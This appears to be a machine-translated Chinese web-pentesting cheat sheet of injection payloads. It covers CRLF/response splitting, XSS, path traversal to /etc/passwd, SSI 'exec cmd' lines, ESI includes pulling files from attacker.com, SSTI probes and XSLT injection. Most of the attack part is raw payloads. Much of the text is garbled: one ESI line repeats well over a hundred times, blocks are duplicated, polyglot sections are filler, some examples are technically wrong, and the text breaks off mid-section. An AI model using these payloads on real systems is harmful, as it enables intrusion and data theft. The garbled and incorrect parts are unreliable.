### CRLF Payloads

以下是一些常见的CRLF有效载荷示例，可用于测试和利用CRLF注入漏洞。

#### CRLF注入有效载荷

- `%0D%0A`: URL编码的CRLF序列
- `%0D%0ASet-Cookie:malicious_cookie=1`: 在HTTP响应中设置恶意Cookie
- `%0D%0AContent-Length:0%0D%0A%0D%0AHTTP/1.1%20200%20OK`: 在HTTP响应中插入恶意头部

#### HTTP响应拆分有效载荷

- `%0D%0A%20Transfer-Encoding:%20chunked%0D%0A%20%0D%0A1a%0D%0A%20%0D%0A%3Cscript%3Ealert('XSS')%3C/script%3E%0D%0A%20%0D%0A0%0D%0A%0D%0A`: 在HTTP响应中插入恶意脚本

#### SMTP头注入有效载荷

- `From:%20attacker@example.com%0D%0ATo:%20victim@example.com%0D%0ASubject:%20Test%0D%0A%0D%0A`: 在SMTP邮件头中插入恶意内容

### CRLF漏洞扫描

以下是一些常用的工具和技术，可用于扫描和检测CRLF注入漏洞。

#### Burp Suite

Burp Suite是一款功能强大的Web应用程序渗透测试工具，可用于扫描和检测CRLF注入漏洞。使用Burp Suite的Intruder模块，可以自动化地发送包含CRLF注入有效载荷的请求，并分析响应以检测漏洞。

#### OWASP ZAP

OWASP ZAP是一款开源的Web应用程序渗透测试工具，也可用于扫描和检测CRLF注入漏洞。使用OWASP ZAP的Active Scan功能，可以自动化地发送包含CRLF注入有效载荷的请求，并分析响应以检测漏洞。

#### 自定义脚本

除了使用现有的工具，还可以编写自定义脚本来扫描和检测CRLF注入漏洞。使用脚本语言（如Python或Ruby），可以发送包含CRLF注入有效载荷的请求，并分析响应以检测漏洞。

### 防御CRLF注入攻击

以下是一些常见的防御措施，可用于防止CRLF注入攻击。

- 输入验证和过滤：对用户输入进行严格的验证和过滤，确保不允许插入CRLF序列。
- 输出编码：在输出到HTTP响应或SMTP邮件时，对特殊字符进行编码，以防止CRLF注入。
- 安全编码实践：遵循安全编码实践，包括使用安全的开发框架和库，以减少CRLF注入漏洞的风险。
- 及时更新：及时更新应用程序和相关组件，以修复已知的CRLF注入漏洞。

### 参考资料

- [CRLF Injection](https://owasp.org/www-community/attacks/CRLF_Injection)
- [HTTP Response Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)
- [SMTP Header Injection](https://owasp.org/www-community/attacks/SMTP_Header_Injection)
```bash
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
# 悬挂标记

## 基本测试

### HTML注释

```html
<!-- HTML Comment -->
```

### HTML注释中的JavaScript代码

```html
<!-- <script>alert('XSS')</script> -->
```

### HTML注释中的SVG代码

```html
<!-- <svg/onload=alert('XSS')> -->
```

### HTML注释中的CSS代码

```html
<!-- <style>@import 'data:text/css;base64,Y29uc29sZS5sb2coJ2FkbWluJyk7'></style> -->
```

### HTML注释中的URL

```html
<!-- <a href="javascript:alert('XSS')">Click me</a> -->
```

### HTML注释中的图片

```html
<!-- <img src=x onerror=alert('XSS')> -->
```

### HTML注释中的IFrame

```html
<!-- <iframe src="javascript:alert('XSS')"></iframe> -->
```

### HTML注释中的表单

```html
<!-- <form action="javascript:alert('XSS')"><input type="submit"></form> -->
```

### HTML注释中的链接

```html
<!-- <link rel="stylesheet" href="javascript:alert('XSS')"> -->
```

### HTML注释中的音频

```html
<!-- <audio src="javascript:alert('XSS')"></audio> -->
```

### HTML注释中的视频

```html
<!-- <video src="javascript:alert('XSS')"></video> -->
```

### HTML注释中的嵌入式对象

```html
<!-- <object data="javascript:alert('XSS')"></object> -->
```

### HTML注释中的Flash

```html
<!-- <embed src="javascript:alert('XSS')"> -->
```

### HTML注释中的Java Applet

```html
<!-- <applet code="javascript:alert('XSS')"> -->
```

### HTML注释中的VBScript

```html
<!-- <script language="VBScript">msgbox "XSS"</script> -->
```

### HTML注释中的ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```

### HTML注释中的VBScript+ActiveX

```html
<!-- <object classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><param name="DataURL" value="javascript:alert('XSS')"></object> -->
```
```markup
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
```
# [文件包含/路径遍历](../file-inclusion/)

## 基本测试
```bash
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
```
# [开放重定向](../open-redirect.md) / [服务器端请求伪造](../ssrf-server-side-request-forgery/)

## 基本测试

### 1. Basic Open Redirect Test

#### Description

This test checks if the application is vulnerable to open redirect attacks. An open redirect vulnerability occurs when an application redirects users to a URL specified in a parameter without proper validation. Attackers can abuse this vulnerability to redirect users to malicious websites or phishing pages.

#### Steps to Perform

1. Identify parameters that control the redirect behavior.
2. Modify the value of the redirect parameter to a malicious URL.
3. Check if the application redirects to the specified URL without any validation.

#### Example

```
GET /redirect?target=https://malicious-website.com HTTP/1.1
Host: vulnerable-website.com
```

### 2. Basic Server Side Request Forgery (SSRF) Test

#### Description

This test checks if the application is vulnerable to server-side request forgery (SSRF) attacks. SSRF vulnerabilities allow attackers to make requests to internal resources or external systems from the perspective of the vulnerable server. This can lead to information disclosure, remote code execution, or other security issues.

#### Steps to Perform

1. Identify parameters that control the server-side request behavior.
2. Modify the value of the parameter to a URL that points to an internal resource or an external system.
3. Check if the application successfully makes the request and returns the response.

#### Example

```
GET /fetch?url=http://internal-resource.com HTTP/1.1
Host: vulnerable-website.com
```

### 3. Basic Open Redirect and SSRF Test

#### Description

This test combines the basic open redirect and server-side request forgery (SSRF) tests to check if the application is vulnerable to both types of attacks.

#### Steps to Perform

1. Follow the steps for the basic open redirect test.
2. Follow the steps for the basic SSRF test.

#### Example

```
GET /redirect?target=https://malicious-website.com&url=http://internal-resource.com HTTP/1.1
Host: vulnerable-website.com
```
```bash
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
```
# [ReDoS（正则表达式拒绝服务攻击）](../regular-expression-denial-of-service-redos.md)

## 基本测试

### Test 1: Single Character Matching

#### Description

This test checks for the vulnerability of a regular expression to ReDoS when matching a single character.

#### Regular Expression

```regex
^(a+)+$
```

#### Payload

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
```

#### Expected Result

The regular expression should match the payload quickly.

### Test 2: Character Set Matching

#### Description

This test checks for the vulnerability of a regular expression to ReDoS when matching a character set.

#### Regular Expression

```regex
^([a-z]+)+$
```

#### Payload

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
```

#### Expected Result

The regular expression should match the payload quickly.

### Test 3: Group Matching

#### Description

This test checks for the vulnerability of a regular expression to ReDoS when matching a group.

#### Regular Expression

```regex
^(a|b)+$
```

#### Payload

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
```

#### Expected Result

The regular expression should match the payload quickly.

### Test 4: Quantifier Matching

#### Description

This test checks for the vulnerability of a regular expression to ReDoS when matching a quantifier.

#### Regular Expression

```regex
^(a{1,3})+$
```

#### Payload

```plaintext
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
```

#### Expected Result

The regular expression should match the payload quickly.
```bash
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
```
# [服务器端包含/边缘端包含](../server-side-inclusion-edge-side-inclusion-injection.md)

## 基本测试

### SSI

```html
<!--#exec cmd="ls" -->
```

```html
<!--#exec cmd="cat /etc/passwd" -->
```

```html
<!--#exec cmd="id" -->
```

```html
<!--#exec cmd="whoami" -->
```

```html
<!--#exec cmd="uname -a" -->
```

### ESI

```html
<esi:include src="http://attacker.com/malicious.xml" />
```

```html
<esi:include src="http://attacker.com/malicious.html" />
```

```html
<esi:include src="http://attacker.com/malicious.js" />
```

```html
<esi:include src="http://attacker.com/malicious.php" />
```

```html
<esi:include src="http://attacker.com/malicious.jpg" />
```

```html
<esi:include src="http://attacker.com/malicious.gif" />
```

```html
<esi:include src="http://attacker.com/malicious.png" />
```

```html
<esi:include src="http://attacker.com/malicious.bmp" />
```

```html
<esi:include src="http://attacker.com/malicious.ico" />
```

```html
<esi:include src="http://attacker.com/malicious.svg" />
```

```html
<esi:include src="http://attacker.com/malicious.json" />
```

```html
<esi:include src="http://attacker.com/malicious.txt" />
```

```html
<esi:include src="http://attacker.com/malicious.css" />
```

```html
<esi:include src="http://attacker.com/malicious.xml" />
```

```html
<esi:include src="http://attacker.com/malicious.xslt" />
```

```html
<esi:include src="http://attacker.com/malicious.xsl" />
```

```html
<esi:include src="http://attacker.com/malicious.dtd" />
```

```html
<esi:include src="http://attacker.com/malicious.ent" />
```

```html
<esi:include src="http://attacker.com/malicious.xhtml" />
```

```html
<esi:include src="http://attacker.com/malicious.xhtm" />
```

```html
<esi:include src="http://attacker.com/malicious.xht" />
```

```html
<esi:include src="http://attacker.com/malicious.html" />
```

```html
<esi:include src="http://attacker.com/malicious.htm" />
```

```html
<esi:include src="http://attacker.com/malicious.shtml" />
```

```html
<esi:include src="http://attacker.com/malicious.shtm" />
```

```html
<esi:include src="http://attacker.com/malicious.sht" />
```

```html
<esi:include src="http://attacker.com/malicious.asp" />
```

```html
<esi:include src="http://attacker.com/malicious.aspx" />
```

```html
<esi:include src="http://attacker.com/malicious.php" />
```

```html
<esi:include src="http://attacker.com/malicious.jsp" />
```

```html
<esi:include src="http://attacker.com/malicious.jsf" />
```

```html
<esi:include src="http://attacker.com/malicious.cfm" />
```

```html
<esi:include src="http://attacker.com/malicious.cfml" />
```

```html
<esi:include src="http://attacker.com/malicious.cfc" />
```

```html
<esi:include src="http://attacker.com/malicious.pl" />
```

```html
<esi:include src="http://attacker.com/malicious.cgi" />
```

```html
<esi:include src="http://attacker.com/malicious.fcgi" />
```

```html
<esi:include src="http://attacker.com/malicious.exe" />
```

```html
<esi:include src="http://attacker.com/malicious.dll" />
```

```html
<esi:include src="http://attacker.com/malicious.so" />
```

```html
<esi:include src="http://attacker.com/malicious.class" />
```

```html
<esi:include src="http://attacker.com/malicious.jar" />
```

```html
<esi:include src="http://attacker.com/malicious.war" />
```

```html
<esi:include src="http://attacker.com/malicious.ear" />
```

```html
<esi:include src="http://attacker.com/malicious.tar" />
```

```html
<esi:include src="http://attacker.com/malicious.gz" />
```

```html
<esi:include src="http://attacker.com/malicious.zip" />
```

```html
<esi:include src="http://attacker.com/malicious.rar" />
```

```html
<esi:include src="http://attacker.com/malicious.7z" />
```

```html
<esi:include src="http://attacker.com/malicious.sql" />
```

```html
<esi:include src="http://attacker.com/malicious.sqlite" />
```

```html
<esi:include src="http://attacker.com/malicious.db" />
```

```html
<esi:include src="http://attacker.com/malicious.mdb" />
```

```html
<esi:include src="http://attacker.com/malicious.accdb" />
```

```html
<esi:include src="http://attacker.com/malicious.bak" />
```

```html
<esi:include src="http://attacker.com/malicious.backup" />
```

```html
<esi:include src="http://attacker.com/malicious.log" />
```

```html
<esi:include src="http://attacker.com/malicious.txt" />
```

```html
<esi:include src="http://attacker.com/malicious.doc" />
```

```html
<esi:include src="http://attacker.com/malicious.docx" />
```

```html
<esi:include src="http://attacker.com/malicious.xls" />
```

```html
<esi:include src="http://attacker.com/malicious.xlsx" />
```

```html
<esi:include src="http://attacker.com/malicious.ppt" />
```

```html
<esi:include src="http://attacker.com/malicious.pptx" />
```

```html
<esi:include src="http://attacker.com/malicious.pdf" />
```

```html
<esi:include src="http://attacker.com/malicious.swf" />
```

```html
<esi:include src="http://attacker.com/malicious.flv" />
```

```html
<esi:include src="http://attacker.com/malicious.mp3" />
```

```html
<esi:include src="http://attacker.com/malicious.wav" />
```

```html
<esi:include src="http://attacker.com/malicious.avi" />
```

```html
<esi:include src="http://attacker.com/malicious.mp4" />
```

```html
<esi:include src="http://attacker.com/malicious.mpeg" />
```

```html
<esi:include src="http://attacker.com/malicious.mov" />
```

```html
<esi:include src="http://attacker.com/malicious.mkv" />
```

```html
<esi:include src="http://attacker.com/malicious.3gp" />
```

```html
<esi:include src="http://attacker.com/malicious.ogv" />
```

```html
<esi:include src="http://attacker.com/malicious.ogg" />
```

```html
<esi:include src="http://attacker.com/malicious.webm" />
```

```html
<esi:include src="http://attacker.com/malicious.bmp" />
```

```html
<esi:include src="http://attacker.com/malicious.gif" />
```

```html
<esi:include src="http://attacker.com/malicious.jpg" />
```

```html
<esi:include src="http://attacker.com/malicious.jpeg" />
```

```html
<esi:include src="http://attacker.com/malicious.png" />
```

```html
<esi:include src="http://attacker.com/malicious.svg" />
```

```html
<esi:include src="http://attacker.com/malicious.ico" />
```

```html
<esi:include src="http://attacker.com/malicious.ttf" />
```

```html
<esi:include src="http://attacker.com/malicious.otf" />
```

```html
<esi:include src="http://attacker.com/malicious.eot" />
```

```html
<esi:include src="http://attacker.com/malicious.woff" />
```

```html
<esi:include src="http://attacker.com/malicious.woff2" />
```

```html
<esi:include src="http://attacker.com/malicious.svgz" />
```

```html
<esi:include src="http://attacker.com/malicious.ics" />
```

```html
<esi:include src="http://attacker.com/malicious.vcf" />
```

```html
<esi:include src="http://attacker.com/malicious.xml" />
```

```html
<esi:include src="http://attacker.com/malicious.json" />
```

```html
<esi:include src="http://attacker.com/malicious.rss" />
```

```html
<esi:include src="http://attacker.com/malicious.atom" />
```

```html
<esi:include src="http://attacker.com/malicious.rdf" />
```

```html
<esi:include src="http://attacker.com/malicious.wsdl" />
```

```html
<esi:include src="http://attacker.com/malicious.xsd" />
```

```html
<esi:include src="http://attacker.com/malicious.wsdd" />
```

```html
<esi:include src="http://attacker.com/malicious.wsdl" />
```

```html
<esi:include src="http://attacker.com/malicious.wsil" />
```

```html
<esi:include src="http://attacker.com/malicious.wspolicy" />
```

```html
<esi:include src="http://attacker.com/malicious.wadl" />
```

```html
<esi:include src="http://attacker.com/malicious.xpi" />
```

```html
<esi:include src="http://attacker.com/malicious.crx" />
```

```html
<esi:include src="http://attacker.com/malicious.xap" />
```

```html
<esi:include src="http://attacker.com/malicious.xar" />
```

```html
<esi:include src="http://attacker.com/malicious.apk" />
```

```html
<esi:include src="http://attacker.com/malicious.ipa" />
```

```html
<esi:include src="http://attacker.com/malicious.app" />
```

```html
<esi:include src="http://attacker.com/malicious.jar" />
```

```html
<esi:include src="http://attacker.com/malicious.jad" />
```

```html
<esi:include src="http://attacker.com/malicious.cod" />
```

```html
<esi:include src="http://attacker.com/malicious.jnlp" />
```

```html
<esi:include src="http://attacker.com/malicious.wml" />
```

```html
<esi:include src="http://attacker.com/malicious.wmls" />
```

```html
<esi:include src="http://attacker.com/malicious.wbmp" />
```

```html
<esi:include src="http://attacker.com/malicious.wbxml" />
```

```html
<esi:include src="http://attacker.com/malicious.wmlc" />
```

```html
<esi:include src="http://attacker.com/malicious.wmlsc" />
```

```html
<esi:include src="http://attacker.com/malicious.wmlscript" />
```

```html
<esi:include src="http://attacker.com/malicious.wmlscriptc" />
```

```html
<esi:include src="http://attacker.com/malicious.htc" />
```

```html
<esi:include src="http://attacker.com/malicious.mml" />
```

```html
<esi:include src="http://attacker.com/malicious.rdf" />
```

```html
<esi:include src="http://attacker.com/malicious.xht" />
```

```html
<esi:include src="http://attacker.com/malicious.xhtm" />
```

```html
<esi:include src="http://attacker.com/malicious.xhtml" />
```

```html
<esi:include src="http://attacker.com/malicious.xsl" />
```

```html
<esi:include src="http://attacker.com/malicious.xslt" />
```

```html
<esi:include src="http://attacker.com/malicious.xml" />
```

```html
<esi:include src="http://attacker.com/malicious.css" />
```

```html
<esi:include src="http://attacker.com/malicious.txt" />
```

```html
<esi:include src="http://attacker.com/malicious.json" />
```

```html
<esi:include src="http://attacker.com/malicious.svg" />
```

```html
<esi:include src="http://attacker.com/malicious.png" />
```

```html
<esi:include src="http://attacker.com/malicious.gif" />
```

```html
<esi:include src="http://attacker.com/malicious.jpg" />
```

```html
<esi:include src="http://attacker.com/malicious.bmp" />
```

```html
<esi:include src="http://attacker.com/malicious.ico" />
```

```html
<esi:include src="http://attacker.com/malicious.js" />
```

```html
<esi:include src="http://attacker.com/malicious.php" />
```

```html
<esi:include src="http://attacker.com/malicious.html" />
```

```html
<esi:include src="http://attacker.com/malicious.xml" />
```

```html
<esi:include src="http://attacker.com/malicious.xslt" />
```

```html
<esi:include src="http://attacker.com/malicious.xsl" />
```

```html
<esi:include src="http://attacker.com/malicious.dtd" />
```

```html
<esi:include src="http://attacker.com/malicious.ent" />
```

```html
<esi:include src="http://attacker.com/malicious.xhtml" />
```

```html
<esi:include src="http://attacker.com/malicious.xhtm" />
```

```html
<esi:include src="http://attacker.com/malicious.xht" />
```

```html
<esi:include src="http://attacker.com/malicious.html" />
```

```html
<esi:include src="http://attacker.com/malicious.htm" />
```

```html
<esi:include src="http://attacker.com/malicious.shtml" />
```

```html
<esi:include src="http://attacker.com/malicious.shtm" />
```

```html
<esi:include src="http://attacker.com/malicious.sht" />
```

```html
<esi:include src="http://attacker.com/malicious.asp" />
```

```html
<esi:include src="http://attacker.com/malicious.aspx" />
```

```html
<esi:include src="http://attacker.com/malicious.php" />
```

```html
<esi:include src="http://attacker.com/malicious.jsp" />
```

```html
<esi:include src="http://attacker.com/malicious.jsf" />
```

```html
<esi:include src="http://attacker.com/malicious.cfm" />
```

```html
<esi:include src="http://attacker.com/malicious.cfml" />
```

```html
<esi:include src="http://attacker.com/malicious.cfc" />
```

```html
<esi:include src="http://attacker.com/malicious.pl" />
```

```html
<esi:include src="http://attacker.com/malicious.cgi" />
```

```html
```markup
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="ls" -->
<esi:include src=http://attacker.com/>
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
## 多语言

Polyglot（多语言）是指一种文件或程序，可以被解释为多种不同的语言。在网络渗透测试中，多语言文件可以用于绕过安全措施，欺骗系统或执行恶意操作。以下是一些常见的多语言技术和示例。

### 1. Polyglot文件

Polyglot文件是一种可以被解释为多种语言的文件。这些文件通常具有多个文件扩展名，以便在不同的环境中被解释为不同的语言。例如，一个文件可以同时被解释为HTML和JavaScript。

以下是一个HTML和JavaScript的Polyglot文件示例：

```html
<!-- HTML comment -->
<script>
    // JavaScript code
    alert("Hello, World!");
</script>
```

### 2. Polyglot图片

Polyglot图片是一种可以被解释为多种文件类型的图片。这些图片通常具有多个文件头，以便在不同的环境中被解释为不同的文件类型。例如，一个图片可以同时被解释为JPEG和GIF。

以下是一个JPEG和GIF的Polyglot图片示例：

```
FF D8 FF E0 00 10 4A 46 49 46 00 01 // JPEG header
47 49 46 38 39 61 01 00 01 00 80 00 // GIF header
00 FF FF FF FF FF FF 21 F9 04 01 00
00 00 2C 00 00 00 00 01 00 01 00 00 02
02 4C 01 00 3B // GIF trailer
```

### 3. Polyglot注释

Polyglot注释是一种可以被解释为多种语言的注释。这些注释通常具有多个语言的语法，以便在不同的环境中被解释为不同的语言。例如，一个注释可以同时被解释为C和Python。

以下是一个C和Python的Polyglot注释示例：

```c
/* C comment */
#include <stdio.h>

int main() {
    // Python code
    print("Hello, World!");
    return 0;
}
```

### 4. Polyglot URL

Polyglot URL是一种可以被解释为多种语言的URL。这些URL通常具有多个编码格式，以便在不同的环境中被解释为不同的语言。例如，一个URL可以同时被解释为ASCII和Unicode。

以下是一个ASCII和Unicode的Polyglot URL示例：

```
http://example.com/%u0065%u0078%u0061%u006d%u0070%u006c%u0065 // Unicode
http://example.com/execute // ASCII
```

### 5. Polyglot命令

Polyglot命令是一种可以被解释为多种语言的命令。这些命令通常具有多个语言的语法，以便在不同的环境中被解释为不同的语言。例如，一个命令可以同时被解释为Bash和PowerShell。

以下是一个Bash和PowerShell的Polyglot命令示例：

```bash
# Bash code
echo "Hello, World!"

# PowerShell code
Write-Host "Hello, World!"
```

Polyglot技术可以帮助渗透测试人员绕过安全措施，欺骗系统或执行恶意操作。了解和使用Polyglot技术可以提高渗透测试的效果和成功率。
```markup
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
# [服务器端请求伪造](../ssrf-server-side-request-forgery/)

可以使用与开放重定向相同的测试方法。

# [服务器端模板注入](../ssti-server-side-template-injection/)

## 基本测试
```markup
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
## 多语言

Polyglot（多语言）是指一种文件或程序，可以被解释为多种不同的语言，具体取决于上下文。在网络渗透测试中，多语言文件可以用于绕过安全机制，欺骗系统或执行恶意操作。

### 多语言文件的特点

- **文件格式**：多语言文件通常是特定格式的文件，例如HTML、XML、JSON、PDF等。
- **语言注释**：多语言文件中的注释可以用于指定文件的语言类型。
- **语言特定代码**：多语言文件中的代码可以根据不同的语言解释器进行解释。

### 多语言文件的应用

- **绕过安全机制**：通过创建一个多语言文件，可以绕过某些安全机制，因为不同的解释器可能会对文件进行不同的处理。
- **欺骗系统**：多语言文件可以被解释为合法的文件类型，从而欺骗系统，绕过文件类型检测。
- **执行恶意操作**：通过利用多语言文件的特性，可以执行恶意操作，例如执行命令、读取敏感文件等。

### 多语言文件的示例

以下是一些常见的多语言文件示例：

- **Polyglot HTML/JavaScript**：这种文件可以同时被解释为HTML和JavaScript代码，可以用于绕过XSS过滤器。
- **Polyglot XML/XXE**：这种文件可以同时被解释为XML和XXE（XML外部实体）代码，可以用于执行XXE攻击。
- **Polyglot JSON/JavaScript**：这种文件可以同时被解释为JSON和JavaScript代码，可以用于绕过JSON解析器的限制。

### 多语言文件的创建

创建多语言文件需要深入了解不同语言的语法和特性。以下是一些常见的创建多语言文件的技巧：

- **注释技巧**：使用不同语言的注释语法来指定文件的语言类型。
- **语法技巧**：利用不同语言的语法特性来创建多语言文件。
- **编码技巧**：使用不同的字符编码来创建多语言文件。

### 多语言文件的检测

检测多语言文件可以使用以下方法：

- **文件分析**：通过分析文件的内容和结构来确定其是否是多语言文件。
- **语言识别**：使用语言识别工具来确定文件的语言类型。
- **解释器测试**：使用不同的解释器来解释文件，并观察其行为。

### 多语言文件的防御

为了防止多语言文件的滥用，可以采取以下防御措施：

- **文件过滤**：实施严格的文件类型过滤，阻止不受信任的文件类型上传和执行。
- **输入验证**：对用户输入进行严格的验证和过滤，以防止恶意输入。
- **安全配置**：配置系统和应用程序的安全设置，以减少多语言文件的风险。
- **敏感数据保护**：确保敏感数据不会被多语言文件访问或泄露。

### 多语言文件的资源

以下是一些有用的资源，可以帮助您了解和利用多语言文件的潜力：

- [Polyglot Files](https://github.com/0xPoly/polyglot-files)：一个开源项目，提供了各种多语言文件的示例和技巧。
- [Polyglot Challenges](https://github.com/0xPoly/polyglot-challenges)：一个开源项目，提供了一系列多语言文件挑战，用于测试和提高您的技能。

### 多语言文件的注意事项

在使用多语言文件时，请注意以下事项：

- **合法性**：确保您使用的多语言文件是合法的，并且不会违反任何法律或道德规范。
- **风险评估**：在使用多语言文件时，评估潜在的风险，并采取适当的安全措施。
- **合规性**：遵循适用的法律和规定，确保您的行为合规。

### 多语言文件的未来

随着技术的不断发展，多语言文件的概念和应用将继续演变。了解多语言文件的原理和技术将帮助您在网络渗透测试中更加灵活和创新地应对各种安全挑战。
```python
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
```
# [XSLT 服务器端注入](../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md)

## 基本测试

### Description

XSLT (Extensible Stylesheet Language Transformations) is a language used for transforming XML documents into other formats, such as HTML or plain text. XSLT Server Side Injection occurs when an attacker is able to inject malicious code into an XSLT stylesheet, which is then executed on the server.

### 概述

XSLT（可扩展样式表语言转换）是一种用于将 XML 文档转换为其他格式（如 HTML 或纯文本）的语言。当攻击者能够将恶意代码注入到 XSLT 样式表中，并在服务器上执行时，就会发生 XSLT 服务器端注入。

### Exploitation

To test for XSLT Server Side Injection, you can try injecting code into the XSLT stylesheet and observe the server's response. Here are some basic tests you can perform:

#### Test 1: Simple Payload

Inject a simple payload into the XSLT stylesheet and check if it is executed by the server. For example:

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="cmd" select="'whoami'" />
    <xsl:value-of select="system-property($cmd)" />
  </xsl:template>
</xsl:stylesheet>
```

If the server executes the `whoami` command and returns the output, it indicates a successful XSLT Server Side Injection.

#### Test 2: File Access

Inject code to read a file from the server's filesystem. For example:

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="file" select="'/etc/passwd'" />
    <xsl:value-of select="document($file)" />
  </xsl:template>
</xsl:stylesheet>
```

If the server returns the contents of the `/etc/passwd` file, it indicates a successful XSLT Server Side Injection.

### 攻击方法

为了测试 XSLT 服务器端注入，您可以尝试将代码注入到 XSLT 样式表中，并观察服务器的响应。以下是一些基本测试：

#### 测试 1：简单的 Payload

将简单的 Payload 注入到 XSLT 样式表中，并检查服务器是否执行它。例如：

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="cmd" select="'whoami'" />
    <xsl:value-of select="system-property($cmd)" />
  </xsl:template>
</xsl:stylesheet>
```

如果服务器执行 `whoami` 命令并返回输出，则表示成功进行了 XSLT 服务器端注入。

#### 测试 2：文件访问

注入代码以从服务器的文件系统中读取文件。例如：

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="file" select="'/etc/passwd'" />
    <xsl:value-of select="document($file)" />
  </xsl:template>
</xsl:stylesheet>
```

如果服务器返回 `/etc/passwd` 文件的内容，则表示成功进行了 XSLT 服务器端注入。
```markup
<xsl:value-of select="system-property('xsl:version')" />
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```
## 多语言

Polyglot（多语言）是指一种文件或程序，可以被解释为多种不同的语言，而不会改变其原始功能。在网络渗透测试中，多语言文件可以用于绕过安全机制，欺骗系统或执行恶意操作。

### 多语言文件的特点

- **文件格式**：多语言文件通常是特定文件格式的文件，例如HTML、XML、PDF、JPEG等。这些文件格式具有一定的灵活性，可以容纳多种语言的代码。
- **语言注释**：多语言文件中的注释可以用于隐藏恶意代码，因为不同语言的注释符号不同，解释器会忽略其他语言的注释。
- **语言特性**：多语言文件可以利用不同语言的特性和解释器的行为差异来实现多种功能。

### 多语言文件的应用

